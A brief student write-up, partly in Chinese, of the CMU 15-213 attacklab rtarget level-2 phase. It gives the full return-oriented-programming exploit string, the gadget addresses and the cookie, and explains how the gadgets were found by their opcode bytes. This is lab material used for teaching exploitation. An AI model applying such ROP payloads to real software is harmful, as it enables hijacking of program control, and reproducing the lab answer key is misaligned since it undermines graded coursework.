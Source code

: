 ## attacklab rtargetq1 (phase 4 in total)

```
fanzhipeng@LAPTOP-ILT6KOAH:~/work/cmu15213/attacklab$ ./rtarget -q -i rtarget1raw
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

这个实验中不能inject新代码，并且他的地址被随机化过，所以需要用已有的代码。根据提示，只需要两次，那么构造这样的语句popq %rax, ret; movq %rax, %rdi, ret;最后rdi的值和cookie一样，那么要求栈顶元素和cookie一样，所以我们首先找到 popq rax对应代码58的一个地址`4019cc`然后这个时候执行popq，所以接下来8字节就是cookie的数值

最后我们再找movq %rax, %rdi 对应的 48 89 c7, 找到了`4019a2`的地址，把他填到下一个八字节中，最后我们还需要返回touch2的地址，即把`4017ec`填到最后的8字节。


